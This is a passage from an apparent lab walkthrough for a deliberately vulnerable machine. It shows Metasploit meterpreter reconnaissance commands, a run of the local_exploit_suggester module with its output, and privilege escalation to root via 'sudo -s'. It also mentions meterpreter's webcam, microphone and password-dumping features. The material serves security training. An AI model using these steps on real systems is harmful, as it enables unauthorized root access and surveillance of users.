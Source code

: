 It has opened a forth session, with which we will enter using `sessions -i 4` .

## Exploitation

In the exploitation phase, we will try to get root access in order to have full power on PC1.

Don't hesitate to run `help` command in the meterpreter session in order to see all the possibilites of actions you can do. From controlling the webcam, the microphone or even dumping the passwords, the list of processes and many more, you might be only stopped because you have not root access yet.

Run the following commands:

* `sysinfo`
* `ipconfig`
* `getenv`
* `getuid`
* `getlwd`
* `dir /`

This allows us to gather a lot of information on the system and the user ! Let's use a post exploitation tool used for detecting possible privilege escalation. Put the session in the background using `background` command. Now, let's select the module `use post/multi/recon/local_exploit_suggester` and set the following parameter:

* `SESSION`: `4` --> we specify the session of the meterpreter on PC1

We start the exploit with `run` and wait few minutes. Normally, if everything went well, you are supposed to have the following result:
```shell
#   Name           Potentially Vulnerable?  Check Result
 -   ----          -----------------------  ------------
 1   exploit/linux/local/apport_abrt_chroot_priv_esc                    Yes                      The service is running, but could not be validated. Could not determine Apport version. apport-cli is not installed or not in $PATH.
 2   exploit/linux/local/glibc_ld_audit_dso_load_priv_esc               Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/glibc_origin_expansion_priv_esc                Yes                      The target appears to be vulnerable.
 4   exploit/linux/local/su_login                                       Yes                      The target appears to be vulnerable.
```

Therefore, we can have root session using at least 4 different exploit to privilege escalation ! Although, we notice a very simple one `su_login`, which means that the user `msfadmin` have the right to run `sudo -s` in order grant root access. Let's go back to the session 4 and enter a shell using `shell` command:

Now, let's check the `sudo -s` command of the user: ![](./Images/Image05.png)
